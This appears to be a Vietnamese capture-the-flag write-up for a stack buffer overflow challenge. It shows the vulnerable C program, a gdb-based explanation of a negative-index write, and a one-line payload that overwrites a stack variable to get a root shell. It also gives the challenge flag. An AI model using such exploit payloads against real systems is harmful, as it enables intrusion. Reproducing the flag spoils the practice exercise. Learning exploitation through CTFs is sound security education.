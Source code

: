 # ELF x86 - Stack buffer overflow basic 3

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

Đây là code luôn hoạt động chính của chương trình, chương trình có một vòng while vô tận và nếu biến `check == 0xbffffabc`, chương trình gọi hàm `shell()` và cho chúng ta shell.

Ta nhận thấy biến `count` của chúng ta thuộc kiểu dữ liệu int, như vậy nếu `count < 0` thì ta vẫn pass được điều kiện `count < 64`, case 0x08 `count--` mà không kiểm tra giá trị `count`. Vì vậy ta có thể lợi dụng để ghi đè các giá trị trên stack nằm trước biến `buffer`, mục tiêu của chúng ta là biến `check`.

Kiểm tra với gdb, ta thấy biến `check` nằm ở vị trí `ebp – 0x50`

![](images/3.png)

Biến buffer ở vị trí `ebp – 0x4c`, tức ngay sau biến `check`

![](images/4.png)

Như vậy ta chỉ cần điền 4 byte đầu là 0x08 để biến `count = -4`, sau đó tiến hành ghi đè giá trị `0xbffffabc` vào biến `check` là thành công.

```bash
cat <(python2 -c "print '\x08' * 4 + '\xbc\xfa\xff\xbf'") - | ./ch16
```

![](images/5.png)

flag là: `Sm4shM3ify0uC4n`
